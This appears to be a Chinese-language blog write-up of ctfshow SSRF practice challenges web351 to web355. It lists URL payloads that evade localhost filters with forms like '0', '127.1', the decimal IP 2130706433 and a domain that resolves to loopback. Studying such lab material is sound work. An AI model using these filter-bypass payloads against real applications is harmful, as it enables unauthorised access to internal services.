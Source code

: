```yaml
---
title: SSRF刷题
date: 2025-01-02 13:10:52
tags:
    - "web"
    - "刷题"
    - ctfshow_ssrf
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web351
```
url=http://127.0.0.1/flag.php
url=http://localhost/flag.php
```

### web352

这里过滤了localhost和127.0.0.1
```
url=http://0/flag.php #在Linux中，0也会被解析成127.0.0.1
url=http://127.255.255.254/flag.php 
url=http://127.1/flag.php #127.1会被解析成127.0.0.1，也就意味着为零可缺省
url=http://2130706433/flag.php
```
### web353

这里过滤了localhost和127.0.0.1
```
url=http://0/flag.php
url=http://2130706433/flag.php
```

### web354
```
url=http://sudo.cc/flag.php
```
查来的，我也不知道为什么。

### web355
```
url=http://0/flag.php
url=http://127.1/flag.php
```
if((strlen($host)<=5))：长度小于5